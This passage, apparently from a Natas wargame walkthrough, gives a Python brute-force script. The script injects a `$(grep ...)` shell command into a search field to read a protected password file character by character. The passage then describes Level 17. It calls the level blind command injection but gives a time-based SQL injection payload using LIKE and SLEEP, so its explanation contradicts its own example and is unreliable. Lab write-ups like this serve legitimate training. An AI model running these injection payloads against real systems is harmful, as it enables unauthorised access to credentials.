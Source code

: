 ```
seen_password = []

while len(seen_password) < 32:
    found = False
    for character in characters:
        attempt = ''.join(seen_password) + character
        payload = f'anythings$(grep ^{attempt} /etc/natas_webpass/natas17)'
        try:
            response = session.post(
                url,
                data={'needle': payload},
                auth=(username, password),
                timeout=10
            )
            content = response.text
        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")
            time.sleep(1)
            continue

        if 'anythings' not in content:
            # grep matched → no change → correct char
            seen_password.append(character)
            print(f"[+] Found so far: {''.join(seen_password)}")
            found = True
            break

        time.sleep(0.1)

    if not found:
        print("[-] No matching character found. This shouldn't happen!")
        break

print(f"[✓] Final password: {''.join(seen_password)}")
```

This will gradually build the password for the next level.

### Natas Level 17 → Level 18  
**Key Takeaways**  
This level demonstrates **blind command injection** via timing attacks. The server does not return command output, but the attacker can infer results based on response delays (e.g., using `sleep`). This teaches the importance of defending against time-based side channels.

**Procedure**

1. Log in using the username `natas17` and the password obtained from Level 16.

2. The page has a form that passes input to a shell command. Although output is hidden, timing can be observed.

3. The attack script sends:
    ```
    natas18" AND BINARY password LIKE "{test_password}%" AND SLEEP(1) #
    ```
    - If the password prefix is correct, the server sleeps for 1 second.
    - Otherwise, it responds immediately.
